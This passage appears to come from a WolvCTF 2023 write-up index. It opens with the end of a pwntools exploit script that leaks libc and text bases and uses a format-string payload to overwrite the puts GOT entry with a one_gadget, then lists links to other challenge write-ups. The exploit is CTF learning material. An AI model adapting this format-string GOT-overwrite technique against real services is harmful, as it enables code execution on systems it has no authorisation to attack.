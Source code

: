   ```python
    print('libc base', hex(libc_base))

    text_leak = u64(leak[0x20 + 10 + 1:0x20 + 10 + 1 + 6] + b'\x00' * 2)
    text_base = text_leak - elf.sym['replace_tag_v1']
    print('text base', hex(text_base))

    puts_got = text_base + elf.got['puts']
    one_gadget = libc_base + 0xe3b01

    writes = {
        puts_got: one_gadget
    }
    payload = fmtstr_payload(8, writes)

    print(hexdump(payload))
    io.sendline(payload)


  if __name__ == '__main__':
    parser = argparse.ArgumentParser()
    parser.add_argument('--debug', action='store_true')
    parser.add_argument('--remote', type=str, default=None)

    args = parser.parse_args()

    elf = context.binary = ELF('challenge')

    if args.debug:
        context.terminal = ['tmux', 'splitw', '-h']
        io = gdb.debug(context.binary.path, '''
        set follow-fork-mode child
        break main
        continue
        ''')
    elif args.remote:
        ip, port = args.remote.split(':')
        io = remote(ip, port)
    else:
        io = process()  # Actually start running the process

    solve(io)

    io.interactive()
  ```
### echo2
- https://ctf.krloer.com/writeups/wolvctf/echo2/


## **rev**
### child re
- https://gist.github.com/shinmai/5720d1f0a214d0878cfb530eb975c469
- https://fallingskies22.github.io/post/wolvctf-2023-reverse-child-re/
### baby re
- https://chrootcommit.github.io/WolvCtf2023
- https://gist.github.com/shinmai/5720d1f0a214d0878cfb530eb975c469
### Homework Help
- https://gist.github.com/shinmai/5720d1f0a214d0878cfb530eb975c469
- https://github.com/Nambers/ctf-writeups/blob/main/WolvCTF-2023/Reverse-Homework_Help-Easy-Medium/solve.md